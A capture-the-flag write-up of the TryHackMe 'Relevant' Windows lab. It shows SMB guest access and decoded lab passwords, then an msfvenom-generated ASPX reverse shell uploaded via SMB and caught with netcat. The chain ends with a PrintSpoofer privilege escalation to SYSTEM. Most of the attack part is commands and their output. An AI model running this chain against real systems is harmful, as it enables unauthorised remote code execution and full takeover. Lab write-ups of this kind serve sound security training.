

# Relevant

## Introduction
You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days.

### Scope od Work
The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:
* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:
* Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope
* Find and report ALL vulnerabilities (yes, there is more than one path to root)

### Roleplay off
I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

### Link to the Romm
You can find this room [here](https://tryhackme.com/room/relevant).

## Writeup
First of all, I made a scan using `nmap`.
```
$ nmap -sC -sV 10.10.110.57

Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-09 16:20 CEST
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 0.85% done
Nmap scan report for 10.10.110.57
Host is up (0.096s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE        VERSION
80/tcp   open  http           Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-09T14:22:22+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-05-08T14:18:06
|_Not valid after:  2023-11-07T14:18:06
|_ssl-date: 2023-05-09T14:23:02+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-09T14:22:25
|_  start_date: 2023-05-09T14:19:11

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 147.84 seconds

```
Based on the information obtained from the `nmap` scan, it appears that the target machine is running an SMB service with some additional information about the system.

I focused on this part.

```
...
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

...
```

To enumerate smb service on the target machine, I used the `enum4linux` tool. [Enum4linux](https://www.kali.org/tools/enum4linux/) is a popular tool for enumerating information from Windows and Samba systems.

I ran it against the target machine's IP address using the username discovered with nmap.

```
$ enum4linux -u guest 10.10.110.57
```

<div><p align="center"></div>

Based on the output from `enum4linux`, it appears that the SMB server allows sessions using the "guest" username. However, it indicates that the password is empty.

In this case, I tried to connect to the SMB server using the `guest` username and an empty password.

```
$ smbclient -L //10.10.110.57 -U guest%

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```

I found four different SMB shares. `nt4wrksv` seems souspicious.
```
$ smbclient //10.10.110.57/nt4wrksv -U guest%
```

The `%` at the end of the command indicates an empty password.

Finally, I was able to connect to the SMB share.

```
smb: \> ls
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

		7735807 blocks of size 4096. 4943866 blocks available
smb: \> get passwords.txt 
getting file \passwords.txt of size 98 as passwords.txt (0,3 KiloBytes/sec) (average 0,1 KiloBytes/sec)
smb: \> 
```

On `nt4wrksv` share I found a file called `password.txt`, so I downloaded it and this was its content.

```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

They are clearly base64 encoded strings! To decrypt passwords just use the `base64` command.

```
$ echo Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d
Bob - !P@$$W0rD!123

$ echo QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

* The output of the `echo` command is piped as input to the base64 command via `|` operator.
* The `-d` flag tells `base64` to decode the input string.

I tried using the two new accounts I found to access the other shares, but didn't find anything useful. So I searched for some known vulnerability on `searchsploit`.

```
$ searchsploit microsoft windows server 2008 r2
```
<div><p align="center"></div>

The vulnerability found using searchsploit, 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010), refers to a security vulnerability in Microsoft Windows Server 2008 R2 (x64) and other affected versions. This vulnerability is also known as `EternalBlue` and was addressed by Microsoft in the security bulletin `MS17-010`.

The vulnerability allows remote attackers to execute arbitrary code on a target system by sending a specially crafted packet to the SMB version 1 (SMBv1) server. This exploit was made famous by the `WannaCry` ransomware attack in 2017, which exploited this vulnerability to spread rapidly across networks.

Exploiting this vulnerability can lead to remote code execution, enabling an attacker to take control of the target system. It allows the attacker to propagate through the network, compromising other vulnerable machines.

I initially tried using `metasploit`, but the host crashed and stopped responding. So I tried using the codes found via `searchsploit`, but again they weren't very helpful. So I decided to rescan it with `nmap` using the `-p-` flag in order to check all available ports.

```
$ nmap -p- 10.10.110.57
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-11 10:13 CEST
Nmap scan report for 10.10.110.57
Host is up (0.084s latency).

PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown

```

I discovered three new open ports, and then I immediatelly checked the active services on them.

```
$ nmap -sC -sV -p 49663,49667,49669 10.10.154.38
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-11 10:24 CEST
Nmap scan report for 10.10.154.38
Host is up (0.071s latency).

PORT      STATE SERVICE VERSION
49663/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc   Microsoft Windows RPC
49669/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

I found the same services already present on the other ports.

I used the web fuzzer `ffuf` on port `49663` as well, although it didn't bring me any useful results on port `80` before.

```
ffuf -u http://10.10.110.57:49663/FUZZ -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.110.57:49663/FUZZ
 :: Wordlist         : FUZZ: SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

#                       [Status: 200, Size: 703, Words: 27, Lines: 32]
# directory-list-2.3-medium.txt [Status: 200, Size: 703, Words: 27, Lines: 32]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 703, Words: 27, Lines: 32]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 703, Words: 27, Lines: 32]
# Copyright 2007 James Fisher [Status: 200, Size: 703, Words: 27, Lines: 32]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 703, Words: 27, Lines: 32]
# Priority ordered case-sensitive list, where entries were found [Status: 200, Size: 703, Words: 27, Lines: 32]
# on at least 2 different hosts [Status: 200, Size: 703, Words: 27, Lines: 32]
# This work is licensed under the Creative Commons [Status: 200, Size: 703, Words: 27, Lines: 32]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 703, Words: 27, Lines: 32]

nt4wrksv                [Status: 301, Size: 158, Words: 9, Lines: 2]
:: Progress: [22056/22056] :: Job [1/1] :: 61 req/sec :: Duration: [0:10:56] :: Errors: 0 ::

```

Browsing through the directory I was able to find the passwords.txt file which I had found via smbclient earlier.

<div><p align="center"></div>

Since my previous attempts to get a reverse shell didn't work, I decided to manually upload a reverse shell to the server via the SMB service. I inspected the web page with [Wappalyzer](https://www.wappalyzer.com/?utm_source=popup&utm_medium=extension&utm_campaign=wappalyzer), and I discovered that the framework used is `MICROSOFT ASP.NET` so I need a file in `.aspx` format.

<div><p align="center"></div>

Before trying to develop a reverse shell in `.aspx` format, I thought of using `msfvenom` to make my job easier. 

```
$ msfvenom -l payloads | grep windows | grep reverse
```

<div><p align="center"></div>

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.15.73 LPORT=4444 -f aspx > reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3672 bytes

```
* `-p` specifies the payload to be generated by `msfvenom`. In this case, `windows/x64/shell/reverse_tcp` is the payload that creates a reverse TCP shell for 64-bit Windows systems.
* `LHOST` stands for "Listening Host" and is used to specify the IP address of the host where the listener will be running.
* `LPORT` stands for "Listening Port" and is used to specify the port number on which the listener will be listening for incoming connections. 
* `-f` specifies the output format for the generated payload.

```
smb: \> put reverse.aspx
putting file reverse.aspx as \reverse.aspx (2,8 kb/s) (average 2,8 kb/s)
smb: \> ls
  .                                   D        0  Thu May 11 11:42:25 2023
  ..                                  D        0  Thu May 11 11:42:25 2023
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  reverse.aspx                        A     3672  Thu May 11 11:42:25 2023

		7735807 blocks of size 4096. 4949699 blocks available
```

I listened via `netcat`, I  went to the web page at `/nt4wrksv/reverse.aspx` and finally got a working reverse shell.

```
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.110.57 49869
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
*  The `-l` flag instructs nc to listen for incoming connections. It puts nc into listening mode, waiting for a connection to be established.
* The `-n` flag disables DNS resolution. It prevents nc from attempting to resolve hostnames to IP addresses, making the connection process faster.
* The `-v` flag enables verbose output. It causes nc to display more detailed information about the connection, including incoming and outgoing data.
* The `-p` flag specifies the port number to listen on.

Once inside, I first saw which users were active on the machine.

```
c:\Windows\System32>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Bob                      DefaultAccount           
Guest                    
The command completed with one or more errors.

```

After that I searched for the first flag, moving into the file system, and found it on Bob's desktop.

```
c:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,255,838,208 bytes free

c:\Users\Bob\Desktop>more user.txt
more user.txt
THM{*****************************}

```

Now I just have to look for the `root.txt` file. Most likely it is in the `Administrator` folder, but obviously I don't have permission to access it. A great tool to find PE vector is winPEAS belonging to the [PEAS-ng](https://github.com/carlospolop/PEASS-ng) repository.

I cloned the repository on my local machine and I uploaded the `winPEAS.bat` file on the `nt4wrksv` share through Bob's account.

```
$ smbclient //10.10.126.177/nt4wrksv -U Bob
Password for [WORKGROUP\Bob]:
Try "help" to get a list of possible commands.
smb: \> put winPEAS.bat
putting file winPEAS.bat as \winPEAS.bat (98,9 kb/s) (average 98,9 kb/s)

```

Files uploaded via smb are also available via http, so I googled (chatgpt *cof *cof) where windows saves these files. 

The directory `\inetpub\wwwroot\` on Windows typically serves as the root directory for websites hosted on Internet Information Services (IIS), which is a web server provided by Microsoft. When you install and configure IIS, the default location for hosting web content is set to `\inetpub\wwwroot\`. This directory is commonly referred to as the "web root" or "document root" and is the base directory from which web pages, scripts, and other web-related files are served by the web server.

So, I found my file in that directory and I ran it.

<div><p align="center"></div>

Based on the privileges provided by the tool, there are a few privileges that could potentially be used for privilege escalation.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

* **SeIncreaseQuotaPrivilege**: This privilege allows adjusting memory quotas for a process. If a vulnerable process or service is running with lower privileges and has a misconfigured or insecure memory quota setting, it may be possible to exploit this privilege to escalate privileges. However, since this privilege is currently disabled, it cannot be exploited in its current state.

* **SeChangeNotifyPrivilege**: This privilege allows bypassing traverse checking, which can be used to access objects and directories even if the security settings would typically prevent it. While this privilege can be useful for certain types of attacks, it alone may not directly lead to privilege escalation.

* **SeImpersonatePrivilege**: This privilege allows impersonating a client after authentication. It can be used to perform certain actions on behalf of other users or processes. However, it typically requires additional vulnerabilities or misconfigurations to be leveraged for privilege escalation.

* **SeCreateGlobalPrivilege**: This privilege allows creating global objects. It provides the ability to create objects that are accessible across different sessions and processes. While it can be useful in certain scenarios, it alone may not directly lead to privilege escalation.

* **SeIncreaseWorkingSetPrivilege**: This privilege allows increasing the working set of a process. It is typically used to allocate more memory to a process. However, since this privilege is currently disabled, it cannot be exploited in its current state.

I focused on **SeImpersonatePrivilege**, from the name it seemed to me the most promising, and through a google search I found a very useful [link](https://www.plesk.com/kb/support/microsoft-windows-seimpersonateprivilege-local-privilege-escalation-2/).


I downloaded [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) from github and via smb service uploaded it to the victim machine.

`PrintSpoofer` is a security tool that exploits a vulnerability in the Windows Print Spooler service to escalate privileges on a compromised system. The tool takes advantage of the impersonation capabilities of the Print Spooler service to run arbitrary code with SYSTEM privileges, allowing an attacker to gain complete control over the system.

Being able to execute arbitrary commands with administrator privileges I managed to spawn a shell with maximum privileges

```
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

After that it was easy to read the root.txt file and find the flag.

```
C:\Users\Administrator\Desktop>more root.txt
more root.txt
THM{*****************************}

```